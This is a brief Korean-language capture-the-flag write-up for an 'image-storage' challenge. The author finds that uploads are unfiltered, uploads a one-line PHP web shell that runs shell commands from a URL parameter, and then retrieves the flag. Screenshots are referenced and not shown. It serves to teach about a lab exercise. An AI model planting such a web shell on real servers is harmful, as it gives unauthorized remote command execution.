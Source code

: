# image-storage

소스코드를 보니 업로드 되는 파일에 필터링이 없어서 바로 간단한 웹 쉘을 업로드 해보았다.   

### web shell
```
<?php
echo shell_exec($_GET['cmd']);
?>
```   
<br/>

![image1](1.PNG)   

성공적으로 업로드가 되어서 쉽게 flag를 확인할 수 있었다.    
![image2](2.PNG)
